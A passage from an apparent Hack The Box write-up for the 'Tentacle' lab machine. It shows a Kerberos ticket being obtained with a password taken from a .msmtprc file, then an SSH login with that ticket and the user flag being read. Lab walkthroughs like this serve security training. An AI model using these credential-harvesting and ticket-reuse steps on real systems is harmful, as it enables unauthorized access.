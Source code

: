 ```console

[realms]
	REALCORP.HTB = {
        	kdc = 10.10.10.224
	}
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ kinit j.nakazawa  #Put the password from .msmtprc file: sJB}RM>6Z~64_
Password for j.nakazawa@REALCORP.HTB: sJB}RM>6Z~64_
└──╼ $klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
04/16/2021 04:39:08  04/17/2021 04:39:08  krbtgt/REALCORP.HTB@REALCORP.HTB

```

We need to add to ```/etc/hosts``` the following:
```
10.10.10.224	srv01.realcorp.htb
```

Which takes from ```http://10.10.10.224:3128```:

![srv01.JPG](images/srv01.JPG)

Now we add the krb, We can just connect using ```ssh``` using the krb ticket:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Fri Apr 16 02:33:11 BST 2021 from 10.10.14.23 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ ls
user.txt
[j.nakazawa@srv01 ~]$ cat user.txt 
15fa0542e68ad4b9e0a79b482712dbfa
```
